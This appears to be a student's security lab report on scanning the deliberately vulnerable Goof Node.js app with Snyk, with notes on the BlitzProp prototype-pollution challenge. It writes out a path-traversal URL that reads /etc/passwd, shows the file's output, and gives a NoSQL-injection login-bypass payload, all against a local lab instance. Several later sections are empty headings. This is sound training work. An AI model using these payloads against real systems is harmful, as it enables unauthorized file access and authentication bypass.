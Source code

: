 # Lab 11: Using Snyk to Find & Fix Vulnerabilities
## 1. Introduction
### What is Snyk and why is it important?
Snyk is a developer-first security platform that helps identify and fix vulnerabilities in code, open-source dependencies, container images, and infrastructure as code (IaC). It enables developers to find and remediate security issues early in the development lifecycle, without slowing down the development process.

By integrating Snyk into the software development pipeline, teams can benefit from:

- **Automated vulnerability scanning** during coding, testing, and deployment.
- **Real-time feedback** on insecure dependencies or misconfigurations.
- **Fix recommendations and pull requests** that help resolve issues quickly.
- **Support for CI/CD integration**, enabling continuous security checks.
- **Detailed reporting and dashboards** for monitoring project health.

Using Snyk improves an organization’s security posture by shifting security left—addressing vulnerabilities earlier, where fixes are faster and less costly.

### Review the BlitzProp challenge: what security issues are being addressed?
The BlitzProp challenge highlights critical security vulnerabilities commonly found in JavaScript applications, specifically:

**1. Prototype Pollution**
The app improperly merges user input into objects using functions like Object.assign() without validating or sanitizing the input. This allows an attacker to manipulate the JavaScript object prototype by injecting properties via the special __proto__ key. As a result, global objects can be polluted, causing unauthorized access or behavior changes throughout the application.

**2. Vulnerable Dependencies**
BlitzProp relies on outdated versions of the flat npm package, which is susceptible to prototype pollution vulnerabilities (Snyk ID: SNYK-JS-FLAT-596927). It also uses the pug template engine with known remote code execution risks (Snyk ID: SNYK-JS-PUG-1071616).

**3. Lack of Input Validation**
User inputs are directly processed without proper sanitization, allowing exploits such as prototype pollution and template injection, which can lead to unauthorized file access or remote code execution.

Together, these issues enable attackers to bypass security controls, access sensitive data (like hidden flag files), and potentially execute arbitrary code, demonstrating the importance of secure coding practices and dependency management.

## 2. Steps Performed
### Setup Goof App
#### Description

In this step, I set up the Goof vulnerable application, which is an intentionally insecure Node.js app created by Snyk to demonstrate how common vulnerabilities in open-source dependencies can be found and fixed.

#### Commands Used

```bash
# Clone the Goof GitHub repository
git clone https://github.com/snyk/nodejs-goof.git

# Exploration
cd nodejs-goof
ls

# Start the application
docker-compose up --build

# Web access
http://localhost:3001
```

### Docker Image Scanning

#### Description

In this step, I used the Snyk CLI to scan the Docker image built for the Goof application. The goal was to identify vulnerabilities in the base system libraries.

#### Commands Used

```bash
# Step into the project directory
cd nodejs-goof

# Build the Docker image using docker-compose
docker-compose build

# List available Docker images to confirm the Goof image was built
docker images

# Run a Snyk scan on the Docker image
snyk test --docker nodejs-goof_goof --file=Dockerfile
```

**Results**
[Results](snyk-scan-results.txt)

### Manual Exploits

#### Description

In this step, I tested the Goof application for a Local File Inclusion (LFI) vulnerability by attempting to access the system's `/etc/passwd` file through the browser. I also explored the provided PoC (proof-of-concept) exploits in the `exploits/` directory to understand how vulnerabilities can be reproduced through scripts.

#### Test the App Locally: Access `/etc/passwd`

##### Steps Performed

1. Started the Goof app:
```bash
    docker-compose up --build
```
Opened the app in a browser at:

cpp

http://127.0.0.1:3001

Manually crafted and accessed this LFI URL in the browser:

http://127.0.0.1:3001/public/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

**Result**

The /etc/passwd file contents were successfully displayed in the browser, confirming that the application is vulnerable to LFI.

**Output:**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

#### Explore PoCs in `exploits/` Directory
To understand how the Goof application is vulnerable, I explored the provided (PoC) scripts located in the `exploits/` directory.

I focused on the script `nosql-exploits.sh`, which contains multiple examples of NoSQL Injection payloads targeting the login functionality.

##### Commands Used:

```bash
# Navigating to the exploits directory
cd ~/nodejs-goof/exploits

# Reading the PoC script to understand payloads
cat nosql-exploits.sh

# Manually running the NoSQL Injection payload (ns4)
echo '{"username": "admin@snyk.io", "password": {"$gt": ""}}' | http --json http://localhost:3001/login -v
```

### Email Evidence


### Rebuild & Validate Fix


### Rebuild & Validate Fix


### CTF Challenge - BlitzProp


### Prototype Pollution


## Screenshots

#### Snyk scan results
![]()

### Goof app running
![]()

### Terminal showing snyk wizard interaction
![]()

### Browser views before/after fix
![]()

### Snyk dashboard or email report
![]()

### Docker container details
![]()

### Network tab activity from browser
![]()

### Exploit script execution output